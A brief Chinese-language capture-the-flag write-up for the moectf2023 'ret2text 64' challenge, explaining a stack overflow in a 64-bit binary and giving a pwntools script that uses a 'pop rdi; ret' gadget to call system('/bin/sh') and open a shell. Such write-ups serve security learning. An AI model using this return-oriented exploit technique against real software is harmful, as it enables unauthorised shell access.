 ```yaml
---
title: moectf2023 - ret2text 64
date: 2023/9/23 12:00:00
updated: 2024/7/25 12:34:56
tags:
    - noob
excerpt: 利用`pop rdi; ret;`漏洞执行`system("/bin/sh")`，完成ctf题目ret2text 64。
---
```


## 文件分析

下载`pwn`, NX on, PIE off, Canary off, RELRO partial  
~~这不是写明了64位~~

## 解题思路

思路跟ret2text 32一致，只要执行`system("/bin/sh")`即可

搜索发现存在`pop rdi; ret;`，只要将字符串弹入rdi后执行system即可  
还要注意栈平衡

## EXPLOIT

```python
from pwn import *
sh = remote("localhost", 42473)
sh.sendline(b'130')
sh.sendline(b'0'*0x58 + p64(0x04011be) + p64(0x0404050) + p64(0x04012b7)) # Addr of pop rdi & /bin/sh & system
sh.interactive()
```

Done.
